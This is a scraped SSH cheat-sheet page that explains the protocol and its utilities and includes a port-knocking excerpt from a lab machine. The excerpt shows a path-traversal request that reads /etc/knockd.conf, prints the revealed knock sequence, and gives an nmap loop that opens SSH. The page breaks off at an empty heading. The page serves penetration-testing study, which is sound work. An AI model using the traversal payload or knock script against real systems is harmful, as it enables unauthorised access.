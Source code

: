 https://www.stationx.net/ssh-commands-cheat-sheet/
## What Is SSH?

SSH (short for “Secure Shell” or “Secure Socket Shell”) is a network protocol for accessing network services securely over unsecured networks. It includes the suite of utilities implementing it, such as:

- **ssh-keygen:** for creating new authentication key pairs for SSH;
- **SCP** (Secure Copy Protocol): for copying files between hosts on a network;
- **SFTP** (Secure File Transfer Protocol): for sending and receiving files. It’s an SSH-secured version of FTP (File Transfer Protocol), and it has replaced FTP and FTPS (FTP Secure) as the preferred mechanism for file sharing over the Internet.

An SSH server, by default, listens for connections on the standard Transmission Control Protocol (TCP) [port 22](https://www.stationx.net/common-ports-cheat-sheet/). Your applications may listen for SSH connections on other ports.

SSH lets you securely manage remote systems and applications, such as logging in to another computer over a network, executing commands, and moving files from one computer to another. An advanced SSH functionality is the creation of secure tunnels to run other application protocols remotely.

## SSH Cheat Sheet Search

Search our SSH cheat sheet to find the right cheat for the term you're looking for. Simply enter the term in the search bar, and you'll receive the matching cheats available.

## Port Knocking

Find the knockd file, then hit that sequence

```
http://192.168.208.209/welcome.php?file=../../../../../../../etc/knockd.conf

Example from DC-9 Box on PG:

[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 



Run this script:

for x in 7469 8475 9842; do
	nmap -Pn --host-timeout 201 --max-retries 0 -p $x $ip;
done
```

## Basic SSH Commands

The following are fundamental SSH commands. Commit as many to memory as you can.
